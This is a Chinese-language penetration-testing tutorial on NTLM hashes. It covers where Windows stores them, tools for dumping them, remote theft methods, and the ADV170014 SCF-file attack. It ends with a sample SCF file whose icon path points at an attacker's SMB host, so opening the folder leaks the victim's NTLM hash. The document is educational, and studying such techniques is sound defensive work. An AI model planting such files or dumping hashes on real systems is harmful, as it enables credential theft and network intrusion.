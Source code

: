 
# [](#%E8%8E%B7%E5%8F%96-ntlm)获取 NTLM

## [](#1-%E7%9B%B8%E5%85%B3%E8%83%8C%E6%99%AF)1 相关背景

### [](#11-ntlm-%E7%9A%84%E5%AD%98%E5%82%A8%E4%BD%8D%E7%BD%AE)1.1 NTLM 的存储位置：

1、系统数据库 SAM (Security Account Manager)

2、DIT 数据库

3、内存 Cache

### [](#12-ntlm-%E7%9A%84%E8%8E%B7%E5%8F%96%E6%96%B9%E5%BC%8F)1.2 NTLM 的获取方式

1、从 SAM 获取

2、内存获取

3、DIT 数据库获取

4、WCE、PWDUMP、MIMIKATZ…

### [](#13-ntlm-%E7%9A%84%E5%BD%A2%E5%BC%8F)1.3 NTLM 的形式

aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42

LMHash (windows 2008 R2 系统以后系统默认不保存 LMHash)

NTHash

NetHash - 主要获取该种 hash

### [](#14-%E8%BF%9C%E7%A8%8B%E8%8E%B7%E5%8F%96%E6%96%B9%E5%BC%8F%E7%AA%83%E5%8F%96)1.4 远程获取方式 (窃取):

1、Responder

2、HTTP + SMB

3、**SCF + SMB**

4、SQL + SMB

### [](#adv-170014-ntlm-sso)ADV 170014 NTLM SSO

2017 年 10 月，微软在周二补丁日公布了一份安全公告 (ADV170014)，这份安全公告中提到了 NTLM 身份验证方案中的一个漏洞，恶意攻击者可以利用这个漏洞来窃取哈希。

攻击者只需要将一个恶意的 SCF 文件放置在可公开访问的 Windows 文件夹中即可。

一旦文件被放在文件夹中，就会被一个神秘的 bug 执行。它会收集目标的 NTLM 密码散列，并将其发送到一个配置服务器中。

目标主机存在没有设置密码保护的一个共享文件夹，这种场景非常常见，比如办公室、学校、医院以及大多数 Windows 环境中，人们都会通过共享文件夹来共享音乐、照片以及文档。

### [](#%E6%94%BB%E5%87%BB%E5%9C%BA%E6%99%AF)攻击场景

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105732.png-water_print](assets/1699409393-a8fbf91fa6649902dca2e00210456b34.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105732.png-water_print")

非正版系统可能没有该设置：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105840.png-water_print](assets/1699409393-1e7c8b65785333279308c3247d7cb7fe.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105840.png-water_print")

微软在 Windows 3.11 时引入了 SCF 文件。SCF 文件其实是纯文本文件，可以用来指导 Windows 文件资源管理器执行一些基本任务。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>[Shell]<br>Command=2 <br>IconFile=\\192.168.1.2\sharetest.ico <br>[Taskbar] <br>Command=ToggleDesktop<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509110136.png-water_print](assets/1699409393-a6c251b451ec54b95dffe87f54680ee2.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509110136.png-water_print")
